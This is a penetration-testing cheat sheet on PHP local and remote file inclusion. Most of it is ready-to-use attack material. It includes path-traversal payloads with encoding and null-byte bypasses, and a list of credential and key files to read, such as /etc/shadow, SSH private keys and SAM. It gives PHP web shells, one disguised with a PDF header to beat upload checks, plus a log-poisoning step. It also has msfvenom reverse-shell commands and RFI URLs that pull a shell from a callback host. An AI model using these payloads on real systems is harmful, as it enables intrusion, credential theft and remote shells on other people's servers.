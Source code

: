 # File Inclusion    
[PayloadAllTheThings FI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)  
## Contents 
- [File Inclusion](#file-inclusion)
  * [Contents](#contents)
  * [Local File Inclusion](#local-file-inclusion)
    + [File Upload Pages](#file-upload-pages)
    + [LFI Testing](#lfi-testing)
    + [Interesting Files](#interesting-files)
    + [LFI to RCE via PHP Filters](#lfi-to-rce-via-php-filters)
  * [Remote File Inclusion](#remote-file-inclusion)
  * [Web Payloads](#web-payloads)
    + [Testing](#testing)

## Local File Inclusion 
[Local File Inclusion](http://resources.infosecinstitute.com/local-file-inclusion-code-execution/#gref)   
[Guide to LFI](http://www.securityidiots.com/Web-Pentest/LFI/guide-to-lfi.html)    

Uses file inclusion to access files outside of the web root using relative or absolute file paths.      
Characters may be restricted or filtered - try URL encoding, double URL encoding, unicode / UTF-8 encoding.      
With LFI you may be able to view: config files, docs, source code, command history files, creds file, etc.          

### File Upload Pages
Bypass extension filtering: rename file to an allowed extension (ie .php to .php.pdf file)        
Bypass header check:    

    %PDF-1.4
    <?php system($_GET["cmd"]); ?>

### LFI Testing    
Check for client side scripts     
Use a [LFI wordlist](https://github.com/Karmaz95/crimson/blob/master/words/exp/LFI) to fuzz.     
More wordlists: [file inclusion Linux](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt) and [file inclusion Windows](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt)     

    http://example.com/index.php?page=../../../etc/passwd  
    http://example.com/index.php?page=../../../etc/passwd%00                  #PHP below v. 5.3.4 bypass
    http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00        # double encoding    
    http://example.com/index.php?page=....//....//etc/passwd
    http://example.com/index.php?page=..///////..////..//////etc/passwd
    http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
	
    /etc/passwd, etc.
    can you include a remote file?
    ?test=php://filter/convert.base64-encode/resource=/filepath      -> base64 encode /decode  
	
    http://example.labs/page.php?file=php://filter/resource=/etc/passwd             #php filter wrapper 
	
	
Vulnerable PHP functions

    include
    require
    include_once 
    require_once 
	
### Interesting Files 
Linux 

    /etc/passwd
    /etc/shadow
    /etc/issue
    /etc/group
    /etc/hostname
    /etc/ssh/ssh_config
    /etc/ssh/sshd_config
    /root/.ssh/id_rsa
    /root/.ssh/authorized_keys
    /home/user/.ssh/authorized_keys
    /home/user/.ssh/id_rsa

Windows 

    /boot.ini
    /autoexec.bat
    /windows/system32/drivers/etc/hosts
    /windows/repair/SAM

Log Poisoning 

	open: /log/apache2/access.log 
	send payload as user agent string: <?php system($_GET['cmd']); ?>    
	/log/apache2/access.log&cmd=id      

### LFI to RCE via PHP Filters        
If you think the input is being passed to a PHP include or require function.      
[Hacktricks LFI to RCE Using PHP Filters](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters), [More Reading](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it.html)              	
Script: [lfi2rce_via_php_filters.py](https://github.com/lw8192/Red-Team-Rising/blob/main/Web/lfi2rce_via_php_filters.py)       
If you find an LFI at http://site.php/nav.php?include=       

    python3 lfi2rce_via_php_filters.py http://site.php/nav.php -p include -c pwd            

## Remote File Inclusion 
Turning LFI to RFI: https://l.avala.mp/?p=241
[Reference](https://sushant747.gitbooks.io/total-oscp-guide/content/remote_file_inclusion.html)     
https://github.com/synacktiv/php_filter_chain_generator   

## Web Payloads 

PHP

    <?php echo shell_exec($_GET['cmd']);?> 
    <?php system($_GET['cmd']);?>
    <?php passthru($_GET['cmd']);?>   
      
      
    msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
    cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

ASP

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

JSP

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

WAR

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

### Testing 

    http://example.com/index.php?page=http://callback.com/shell.txt
    http://example.com/index.php?page=http://callback.com/shell.txt%00
    http://example.com/index.php?page=http:%252f%252fcallback.com%252fshell.txt
